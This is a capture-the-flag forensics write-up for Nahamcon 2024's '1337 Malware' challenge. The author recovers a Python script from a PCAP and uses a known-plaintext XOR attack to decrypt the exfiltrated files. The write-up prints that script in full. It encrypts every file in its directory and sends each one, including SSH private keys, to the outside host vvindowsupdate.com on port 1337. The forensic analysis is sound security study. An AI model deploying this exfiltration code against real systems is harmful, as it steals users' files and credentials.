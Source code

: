 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | 1337 Malware Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: forensics
challenge: 1337 Malware
tags: "forensics, twh, pcap, malware, python, tshark, xor, known plaintext attack"
date: 2024-05-28T00:00:00+00:00
last_update: 2024-05-28T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>


## 1337 Malware
> Solved by : thewhiteh4t


- From the PCAP we can extract `rans.py` by exporting HTTP objects

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

key = randbytes(32)


def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()

    encrypted = xor(data, key)
    return encrypted


def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()


def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)
    return file_paths


files = get_all_files()
for f in files:
    send_encrypted(f)
    # os.remove(f)
```


- script generates a random key using randbytes function
- list of all files is generated and each file is passed to `send_encrypted` function
- it encrypts or encodes each file using XOR against the random key


![](https://i.imgur.com/nVmsdt6.png)



- then it first sends a message with the filename in plaintext and second it sends the encoded string


![](https://i.imgur.com/PGkqdW5.png)



- we can extract all this data to a file using `tshark` :

```
tshark -r 1337-malware.pcapng -T fields -e data.data -Y 'data.data' > enc_strings.txt
```

- since the plain text message has a fixed pattern and it begins by `Sending` the hex string remains constant so we can filter out the plain text message using start of the string : `53656e`
- each hex string of plain text message starts with it, so the full pattern is like :

```
sending file
<XORed data in hex>
.
.
.
sending file
<XORed data in hex>
```

- now we don’t have the key and the key is not sent by the script either
- after some google fu I found : `XOR Known Plaintext Attack`
- https://blog.didierstevens.com/2016/01/01/xor-known-plaintext-attack/
- if we decode only the plaintext hex strings we can see the filenames :

```
Sending: /home/davey/Documents/resources.zip
Sending: /home/davey/Documents/ecorp.png
Sending: /home/davey/Documents/Welcome Aboard.pdf
Sending: /home/davey/Documents/.ssh/id_rsa
Sending: /home/davey/Documents/.ssh/id_rsa.pub
```

- for parsing the data extracted from PCAP we can use the following python code :

```python
with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```

- now if we think about known plain text in these files, for ZIP, PNG and PDF we don’t have much data except their headers
- but for `id_rsa` the first line is standard and is present in all valid keys :

```
-----BEGIN OPENSSH PRIVATE KEY-----
```

- using this with `xor-kpa.py` we can attempt to find the key


![](https://i.imgur.com/V6VrZrZ.png)



- we only need the first key
- now we can write a decode function to get the plain text file contents : 

```python
#!/usr/bin/env python3

from pwn import xor

key = b"\x82\xc2SP\x8b\xd5LG\xa7\xe5m\xec\xd8v\xb5\xd6\xa4\'\xc6E\t\x0br\xe1\xb9q3\"\xfe\xe1YY"


def decrypt_file(filename):
        print(f'Decoding : {filename}')
        with open(filename, 'rb') as encfile:
                data = encfile.read()
        decrypted = xor(data, key)
        orig_fname = filename.replace('enc_', '')
        print(f'Writing : {orig_fname}')
        with open(orig_fname, 'wb') as decfile:
                decfile.write(decrypted)


with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```


- `resources.zip` is password protected
- `ecorp.png` is a reference to our beloved Mr Robot!
- `Welcome Aboard.pdf` contains the following content : 


![](https://i.imgur.com/uEQWs66.png)

- and we now have the password for the zip file!


![](https://i.imgur.com/BFgBtLB.png)



